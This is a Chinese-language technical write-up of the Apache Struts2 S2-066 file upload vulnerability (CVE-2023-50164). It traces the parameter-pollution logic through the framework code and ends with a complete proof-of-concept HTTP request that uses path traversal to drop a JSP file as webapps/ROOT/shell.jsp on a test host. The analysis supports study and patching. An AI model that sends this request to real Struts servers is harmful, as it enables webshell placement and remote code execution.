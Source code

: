 

# 奇安信攻防社区-（ CVE-2023-50164）Apache Struts2 S2-066 文件上传漏洞分析

### （ CVE-2023-50164）Apache Struts2 S2-066 文件上传漏洞分析

Struts2 官方披露 CVE-2023-50164 Apache Struts 文件上传漏洞，攻击者可利用该漏洞污染相关上传参数导致目录遍历，在具体代码环境中可能导致上传 Webshell，执行任意代码。

# 漏洞描述

Apache Struts2 是一个开源的 Java Web 应用程序开发框架，旨在帮助开发人员构建灵活、可维护和可扩展的企业级Web应用程序。近日，Struts2 官方披露 CVE-2023-50164 Apache Struts 文件上传漏洞，攻击者可利用该漏洞污染相关上传参数导致目录遍历，在具体代码环境中可能导致上传 Webshell，执行任意代码。

# 漏洞分析

Struts2的默认配置通常包含`FileUploadInterceptor`，该拦截器负责处理文件上传，并将文件信息封装到相应的Action属性中。

## 正常文件上传

当我们使用默认配置上传文件，尝试路径穿越将文件上传至任意目录，测试发现无法路径穿越到任意目录

![image-20231210165300222](assets/1703064374-f30ad0eae188ccdc52d3cd3214296484.png)

我们在`FileUploadInterceptor#intercept()`打下断点，跟进代码

![image-20231210165628696](assets/1703064374-2b8395f6be137cbbecc7d69938720f25.png)

这里跟进`multiWrapper.getFileNames()`

![image-20231210170059050](assets/1703064374-fd460fa9135c6d5362e3b93a18d61930.png)

这里继续跟进`getCanonicalName()`

![image-20231210170542142](assets/1703064374-61ad12c3e56f4833b1ef2e455913fd80.png)

发现获取文件名是通过substring方法进行截取的，通过../../进行目录穿越是不行的。

## 参数污染

回到`FileUploadInterceptor#intercept()`中，在获取文件名后生成了两个变量`contentTypeName`和`fileNameName`

![image-20231210172857904](assets/1703064374-58ec00b43e3aeb8bff56a4d26184bceb.png)

![image-20231210180044724](assets/1703064374-18ac288b20ef444f0fd9d4a160d67981.png)

1.  检查每一个文件是否可以被接受(根据配置规则检查,默认全部接受)
    
2.  对可以接受的文件,将其文件名、内容类型和文件内容分别保存到三个List中(acceptedFileNames、acceptedContentTypes和acceptedFiles)
    
3.  如果接受的文件列表不为空,则将这三个List分别封装成Parameter,并存入参数Map中:
    
    -   文件内容列表acceptedFiles 封装成参数 inputName
    -   内容类型列表 acceptedContentTypes 封装成参数 contentTypeName
    -   文件名列表 acceptedFileNames 封装成参数 fileNameName
4.  最后将这个参数Map 设置到上下文的Parameters中，在`ParametersInterceptor#setParameters()`中对这些参数赋值
    

跟进`ParametersInterceptor#setParameters()`

![image-20231210181151414](assets/1703064374-15b1c1703f07b4ef995235be00128d63.png)

这里采用`HttpParameters.create()`创建参数

而在新版本中，对HttpParameters做出了修改，变成了大小写不敏感，而在存在漏洞的版本中是大小写敏感的。

![image-20231210182522101](assets/1703064374-662f1dd22742fe12d30d048479048bdd.png)

这导致了这里FileFileName和fileFileName会是不同的参数，都会在`ParametersInterceptor#setParameters()`赋值

而后面采用了使用 OGNL 表达式调用 setter 方法对变量赋值

![image-20231210183238455](assets/1703064374-c8ee118b545479e122de9be64d79390c.png)

OGNL 在查找 setter 方法时,会自动把属性名第一个字母变成大写,然后查找 setXxx() 这样的方法。

例如,如果你有一个属性名为 "name",那么 OGNL 会查找 setName() 方法。在这个过程中,不管 name 在 OGNL 表达式中是大写还是小写,都可以正确找到 setter 方法。所以在 Struts 2 的 OGNL 表达式中,属性名的首字母大小写可以不敏感。

所以当我手动传入一个fileFileName参数，在这里也会被赋值，fileFileName和FileFileName参数会被自动映射到同一个参数上。调用相应的get方法获取值时,会取得最后赋值的那个参数的值。

那么这两个参数的赋值先后顺序呢？如果我们手动传入的参数会后赋值，就可以覆盖掉前面的参数，造成参数污染。

在TreeMap中,键(key)的排序是大小写敏感的。默认的排序规则如下:

1.  大写字母会排在小写字母之前
2.  数字会排在字母之前

所以当文件上传的name构造为大写开头，手动传入的污染参数构造为小写开头即可

![image-20231210184928102](assets/1703064374-98c5ffe374f7362f51d4a3d8c0cc43aa.png)

# 漏洞复现

构造数据包：

POST /s2/upload.action?fileFileName=../webapps/ROOT/shell.jsp HTTP/1.1

Host: 192.168.31.185:8080

Content-Length: 416

Cache-Control: max-age=0

Origin: [http://192.168.31.185:8080](http://192.168.31.185:8080/)

DNT: 1

Upgrade-Insecure-Requests: 1

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjYgoTIxv686oqL3F

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10\_15\_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: [http://192.168.31.185:8080/s2/](http://192.168.31.185:8080/s2/)

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

Connection: close

​

\------WebKitFormBoundaryjYgoTIxv686oqL3F

Content-Disposition: form-data; name="File"; filename="test.jsp"

Content-Type: application/octet-stream

​

test

\------WebKitFormBoundaryjYgoTIxv686oqL3F

Content-Disposition: form-data; name="submit"

​

submit

\------WebKitFormBoundaryjYgoTIxv686oqL3F--

文件上传成功，成功路径穿越到webapps目录下！

![image-20231210185327794](assets/1703064374-80e36dc1bd4025dc4329a0216b30cdd5.png)
